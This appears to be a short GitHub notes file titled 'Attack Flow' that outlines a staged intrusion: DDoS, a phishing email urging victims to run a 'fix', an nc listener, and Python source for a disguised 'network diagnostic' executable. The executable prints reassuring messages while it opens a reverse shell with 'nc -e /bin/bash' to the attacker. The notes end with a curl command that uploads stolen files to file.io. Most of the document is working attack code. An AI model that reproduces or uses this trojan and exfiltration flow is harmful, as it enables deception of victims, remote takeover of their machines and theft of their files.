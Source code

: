 # Attack Flow

1. DDoS
2. Phishing Email (saying something like input this command to fix your slow network!)
3. use NC to gain access
    - Attacker’s computer
    
    ```bash
    sudo nc -lnvp <PORT_NUMBER> -s <THIS_IP_ADDRESS>
    ```
    
    - Victim’s computer executable (use `pyinstaller` to generate the executable file)
    
    ```python
    import subprocess, time
    
    def main():
        
        subprocess.run("echo '***** Welcome to CRAP Company Network Diagnostic Tools *****'", shell=True)
        time.sleep(2)
        subprocess.run("echo 'Please sit back and wait... we are detecting whats wrong on your device. It may take 10-15 mins.'", shell=True)
        subprocess.run("echo 'Reminder: Dont close this window! Your network will be slow again if you do so!'", shell=True)
        
        subprocess.run("nc -e /bin/bash ATTACKERS_IP_ADDRESS PORT_NUMBER", shell=True)
    
    if __name__ == "__main__":
        main()
    ```
    
4. Navigate through the directories, find out the file we want
5. Upload to file.io, jot down the keys, download them all after the attack

```bash
curl -X 'POST' \
  'https://file.io/' \
  -H 'accept: application/json' \
  -H 'Content-Type: multipart/form-data' \
  -F 'file=@<FILE_NAME_GOES_HERE>' \
  -F 'expires=2022-09-07' \
  -F 'maxDownloads=1' \
  -F 'autoDelete=true'
```